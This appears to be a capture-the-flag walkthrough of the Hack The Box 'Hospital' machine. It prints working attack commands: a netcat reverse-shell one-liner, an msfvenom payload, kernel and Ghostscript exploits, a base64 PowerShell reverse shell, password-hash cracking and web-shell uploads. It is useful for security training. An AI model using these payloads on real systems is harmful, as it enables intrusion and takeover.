

<div style="display: flex; justify-content: center; align-items: center;">

  <div style="margin-right: 20px;">
    
  </div>

  <div style="display: flex; flex-direction: column; text-align: left;">
    <div style="display: flex; align-items: center; margin-bottom: 10px;">
      <strong style="margin-right: 5px;">OS: </strong>
      
      <span style="margin-left: 5px;">Windows</span>
    </div>
    <div style="display: flex; align-items: center; margin-bottom: 10px;">
      <strong style="margin-right: 5px;">Difficulty:</strong>
      <span>Medium</span>
    </div>
    <div style="display: flex; align-items: center; margin-bottom: 10px;">
      <strong style="margin-right: 5px;">Author:</strong>
      <span>ruycr4ft</span>
    </div>
    <div style="display: flex; align-items: center;">
      <strong style="margin-right: 5px;">Release Date:</strong>
      <span>November 18, 2023</span>
    </div>
</div>


</div>

## Recon

### Nmap

``` bash
$ nmap -sC -sV -T4 -Pn 10.10.11.241
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-20 23:28 WET
Nmap scan report for hospital.htb (10.10.11.241)
Host is up (0.061s latency).
Not shown: 980 filtered tcp ports (no-response)
PORT     STATE SERVICE           VERSION
22/tcp   open  ssh               OpenSSH 9.0p1 Ubuntu 1ubuntu8.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e14b4b3a6d18666939f7aa74b3160aaa (ECDSA)
|_  256 96c1dcd8972095e7015f20a24361cbca (ED25519)
53/tcp   open  domain            Simple DNS Plus
88/tcp   open  kerberos-sec      Microsoft Windows Kerberos (server time: 2023-11-21 06:28:22Z)
135/tcp  open  msrpc             Microsoft Windows RPC
139/tcp  open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: hospital.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Not valid before: 2023-09-06T10:49:03
|_Not valid after:  2028-09-06T10:49:03
443/tcp  open  ssl/http          Apache httpd 2.4.56 ((Win64) OpenSSL/1.1.1t PHP/8.0.28)
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
|_http-title: Hospital Webmail :: Welcome to Hospital Webmail
| tls-alpn: 
|_  http/1.1
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ldapssl?
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Not valid before: 2023-09-06T10:49:03
|_Not valid after:  2028-09-06T10:49:03
1801/tcp open  msmq?
2103/tcp open  msrpc             Microsoft Windows RPC
2105/tcp open  msrpc             Microsoft Windows RPC
2107/tcp open  msrpc             Microsoft Windows RPC
2179/tcp open  vmrdp?
3268/tcp open  ldap              Microsoft Windows Active Directory LDAP (Domain: hospital.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Not valid before: 2023-09-06T10:49:03
|_Not valid after:  2028-09-06T10:49:03
3269/tcp open  globalcatLDAPssl?
| ssl-cert: Subject: commonName=DC
| Subject Alternative Name: DNS:DC, DNS:DC.hospital.htb
| Not valid before: 2023-09-06T10:49:03
|_Not valid after:  2028-09-06T10:49:03
3389/tcp open  ms-wbt-server     Microsoft Terminal Services
| ssl-cert: Subject: commonName=DC.hospital.htb
| Not valid before: 2023-09-05T18:39:34
|_Not valid after:  2024-03-06T18:39:34
| rdp-ntlm-info: 
|   Target_Name: HOSPITAL
|   NetBIOS_Domain_Name: HOSPITAL
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: hospital.htb
|   DNS_Computer_Name: DC.hospital.htb
|   DNS_Tree_Name: hospital.htb
|   Product_Version: 10.0.17763
|_  System_Time: 2023-11-21T06:29:12+00:00
8080/tcp open  http              Apache httpd 2.4.55 ((Ubuntu))
|_http-server-header: Apache/2.4.55 (Ubuntu)
| http-title: Login
|_Requested resource was login.php
|_http-open-proxy: Proxy might be redirecting requests
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: Host: DC; OSs: Linux, Windows; CPE: cpe:/o:linux:linux_kernel, cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 7h00m00s, deviation: 0s, median: 7h00m00s
| smb2-time: 
|   date: 2023-11-21T06:29:13
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 100.82 seconds

```

### Gobuster

```bash
$ gobuster dir --url http://hospital.htb:8080 --wordlist /usr/share/seclists/Discovery/Web-Content/common.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://hospital.htb:8080
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2023/11/20 23:40:37 Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 279]
/.hta                 (Status: 403) [Size: 279]
/.htaccess            (Status: 403) [Size: 279]
/css                  (Status: 301) [Size: 317] [--> http://hospital.htb:8080/css/]
/fonts                (Status: 301) [Size: 319] [--> http://hospital.htb:8080/fonts/]
/images               (Status: 301) [Size: 320] [--> http://hospital.htb:8080/images/]
/index.php            (Status: 302) [Size: 0] [--> login.php]                         
/js                   (Status: 301) [Size: 316] [--> http://hospital.htb:8080/js/]    
/server-status        (Status: 403) [Size: 279]                                       
/uploads              (Status: 301) [Size: 321] [--> http://hospital.htb:8080/uploads/]
/vendor               (Status: 301) [Size: 320] [--> http://hospital.htb:8080/vendor/] 
                                                                                       
===============================================================
2023/11/20 23:41:06 Finished
===============================================================

```
We can see there is direcory called uploads, we will use this later


### HTTPS Page (port 443)

/etc/hosts


It appears to be a mail login page


### HTTP Page (port 8080)

Another login page, however in this one we can create an account


Create an account and login


## Foothold

### Reverse Shell

When we login, we have the option to upload a file

However, when I tried uploading a .php file, it did not work


Changing the extension from .php to .phar, allowed me to upload the file


When I tried to use the revshell, the connection closes instantly and I get an error in the webpage


Using [p0wny@shell:~#](https://github.com/flozz/p0wny-shell) allows us to get a shell on the machine

Just download the shell change the extension from .php to .phar and upload it.
Then we if we open the file through the browser, we get a shell


Then we can rebound the shell to our terminal

``` bash
$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.25 1337 >/tmp/f
```


### meterpreter

I then changed to a meterpreter shell
``` bash
$ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.25 LPORT=1337 -f elf -o reverse.elf
```



### Linux Subsystem PrivEsc
We know that this machine is a Windows machine, but we are on a Linux subsystem at the moment
We can use this [exploit](https://github.com/briskets/CVE-2021-3493) to elevate our privileges on the linux subsystem

We can download it and use meterpreter to upload it
Then we compile it and run it

``` bash
$ gcc exploit.c -o exploit
$ Chmod +x exploit
$ ./exploit
```


### Mail Credentials
We now have access to the /etc/shadow file, where we can get drwilliams hashed password

``` TEXT
drwilliams:$6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz3dABeF6QWumGBspUW378P1tlwak7NqzouoRTbrz6Ag0qcyGQxW192y/:19612:0:99999:7:::
```

We can use john to decrypt the hash, just put it in a .txt file and run john

``` bash
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```


### GhostScript Exploit

We can now login to the Hospital Webmail


If we read the email, there is a mention of GhostScript and the .eps extension.


After searching for ghostscript exploit, I found [CVE-2023-36664](https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection)


First we generate the .eps revshell file

``` bash
$ python3 CVE_2023_36664_exploit.py --generate --revshell -ip 10.10.14.25 -port 4242 --filename trigger_revshell --extension eps
```
Then we inject the payload (PowerShell Base64)
``` bash
$ python3 CVE_2023_36664_exploit.py --inject --payload "powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AMgA1ACIALAA0ADIANAAyACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUAMwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAewA7ACQAZABhAHQAYQAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiAHkAdABlAHMALAAwACwAIAAkAGkAKQA7ACQAcwBlAG4AZABiAGEAYwBrACAAPQAgACgAaQBlAHgAIAAkAGQAYQB0AGEAIAAyAD4AJgAxACAAfAAgAE8AdQB0AC0AUwB0AHIAaQBuAGcAIAApADsAJABzAGUAbgBkAGIAYQBjAGsAMgAgAD0AIAAkAHMAZQBuAGQAYgBhAGMAawAgACsAIAAiAFAAUwAgACIAIAArACAAKABwAHcAZAApAC4AUABhAHQAaAAgACsAIAAiAD4AIAAiADsAJABzAGUAbgBkAGIAeQB0AGUAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAZQBuAGQAYgBhAGMAawAyACkAOwAkAHMAdAByAGUAYQBtAC4AVwByAGkAdABlACgAJABzAGUAbgBkAGIAeQB0AGUALAAwACwAJABzAGUAbgBkAGIAeQB0AGUALgBMAGUAbgBnAHQAaAApADsAJABzAHQAcgBlAGEAbQAuAEYAbAB1AHMAaAAoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==" --filename trigger_revshell.eps
```

Now we just setup a netcat listener and send an email to drbrown with the generated .eps file


We can now get the user flag


## PrivEsc

### Meterpreter

I upgraded to a meterpreter session


### Root Flag

If we run icacls in the htdocs folder, we can see that it is owned by NT AUTHORITY\SYSTEM


I used [p0wny@shell:~#](https://github.com/flozz/p0wny-shell) again
Just upload it using meterpreter to the htdocs directory


We can now get a shell as NT AUTHORITY\SYSTEM and get the root flag

